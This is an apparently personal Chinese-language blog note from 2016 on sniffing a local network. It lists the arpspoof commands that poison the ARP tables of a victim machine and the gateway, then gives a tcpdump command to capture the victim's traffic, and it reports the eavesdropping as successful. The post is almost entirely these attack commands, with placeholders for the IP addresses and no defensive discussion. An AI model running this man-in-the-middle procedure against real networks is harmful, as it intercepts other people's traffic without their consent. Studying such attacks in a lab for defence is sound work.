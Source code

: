 ```yaml
---
layout: post
title:  "内网嗅探与tcpdump监听命令"
date: 2016-03-08 21:06:26 +0800
categories: note
---
```

参考：http://goodbai.com/secure/WhyLANSoInsecure.html

1.安装arpspoof，使用route命令发现网关。通常default一行的gateway字段是网关的地址，但是如果是多级网关的话，就必须要找到对应的网卡（子域）。

2.将victim机流量指向本地
```
#告诉victim我是网关
sudo arpspoof -i eth0 -t [victim机IP] [网关IP]
```

3.转发victim流量到网关

```
#告诉网关我是victim
sudo arpspoof -i eth0 -t [网关IP] [victim机IP] 
```

4.获取监听的流量

```
sudo tcpdump -vv -X -i eth0 'host [victim的IP]'
```

成功监听（窃听）到内网流量

![56deb57f92a47.png](/assets/img/56deb57f92a47.png)
